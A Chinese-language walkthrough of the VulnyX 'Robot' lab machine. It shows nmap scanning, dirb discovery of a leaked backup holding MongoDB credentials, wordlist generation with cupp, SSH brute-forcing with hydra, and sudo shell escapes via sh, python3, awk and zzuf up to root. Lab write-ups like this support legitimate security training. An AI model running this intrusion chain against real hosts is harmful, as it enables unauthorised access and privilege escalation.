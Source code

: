 # 环境

来自[vulnyx_Robot](https://vulnyx.com/#Robot)，获取网站泄露备份文件，获取mongo连接账号，拿到关键信息生成字典爆破密码

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240815172643144](image/image-20240815172643144.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.39
```

![image-20240815172758521](image/image-20240815172758521.png)

## 目录扫描

```bash
dirb http://192.168.88.39
```

![image-20240815173852743](image/image-20240815173852743.png)

没有结果，发现只有一张图片

# web渗透

## 图片分析

```bash
exiftool image.jpg
```

![image-20240815174020833](image/image-20240815174020833.png)

发现可疑路径，类似备份目录

## 目录扫描

```bash
dirb http://192.168.88.39 -X.bak  #扫描指定后缀文件
```

![image-20240815180221485](image/image-20240815180221485.png)

查看文件http://192.168.88.39/B4ckUp_3LLi0t/connect.bak

![image-20240815180336035](image/image-20240815180336035.png)

发现mongo的账号和密码，目标开放mongo端口`27017`

## 连接mongo

使用Navicat连接

![image-20240815182214010](image/image-20240815182214010.png)

或者安装mongo命令行工具

```bash
sudo apt install mongodb-client
mongo --host 192.168.88.39 -u mongo -p m0ng0P4zz elliot
show dbs
db.elliot.find()
```

有用信息

![image-20240815190150990](image/image-20240815190150990.png)

## 生成字典

```bash
cupp -i
```

![image-20240815190238802](image/image-20240815190238802.png)

## 爆破ssh

```bash
hydra -l elliot -P elliot.txt ssh://192.168.88.39
密码:toillE71986
toillE71986
```

![image-20240815185929071](image/image-20240815185929071.png)

## 提权

```bash
ssh elliot@192.168.88.39
sudo -l
sudo -u darlene /usr/bin/sh
```

![image-20240815192732494](image/image-20240815192732494.png)

python3提权

```bash
sudo -l
sudo -u angela /usr/bin/python3 -c "import os;os.system('/bin/bash')"
```

![image-20240815193302675](image/image-20240815193302675.png)

awk提权

```bash
sudo -l
sudo -u tyrell /usr/bin/awk 'BEGIN{system("/bin/bash")'
```

![image-20240815212449823](image/image-20240815212449823.png)

zuff提权

```bash
sudo -l
sudo -u root /usr/bin/zzuf bash
```

![image-20240815212944130](image/image-20240815212944130.png)
